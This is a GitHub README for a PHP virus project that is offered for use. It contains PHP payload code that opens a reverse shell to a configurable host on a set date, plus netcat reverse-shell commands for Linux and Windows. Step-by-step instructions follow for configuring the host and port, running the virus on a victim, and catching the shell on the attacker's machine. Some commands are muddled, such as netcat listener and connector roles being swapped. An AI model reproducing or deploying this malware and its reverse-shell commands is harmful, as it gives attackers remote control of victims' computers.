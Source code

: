 ![alt text](https://github.com/27182818284590452/Viral-PHP-script/tree/master/Images/php.png)
# Viral-PHP-script
Simple PHP-virus with optional payload. For private use only, the developer is not responsible for the use of this project.

# Requirements
Script requires PHP 7.1.23 or later.
Check your version by typing:
```
php --version
```
into your shell.

# Usage:
## Step 1.1 (optional):
You can use the default payload, which opens a reverse shell to a remote host. You can change the payload by inserting your own php payload into the payload function.
```php
// exec payload
function payload(){
    if(date("md") == 0424){
        $sock = fsockopen(Hostname, Port);
        exec ("/bin/sh -i <&3 >&3 2>&3");
    }
}
```
### Step 1.2 (optional):
Please change Hostname and Port to your own setting. (FREX. Hostname = 127.0.0.1 Port = 1234).
```php
// sets Hostname and Port
define("Hostname", "127.0.0.1");
define("Port", 1234);
```

## Step 2 (optional):
Set your own signature.
```php
// define signature
define("SIGNATURE", "§16N47UR3");
```

## Step 3:
Start the netcat listener on your machine.
```
nc 127.0.0.1 1234 -e /bin/sh  # Linux reverse shell
nc 127.0.0.1 1234 -e cmd.exe  # Windows reverse shell
```

For versions that don't support the -e option
```
nc -e /bin/sh 127.0.0.1 1234
```

## Step 4:
Execute virus.php on victim.
```
php virus.php
```

# Step 5:
Catch shell on attacker machine.
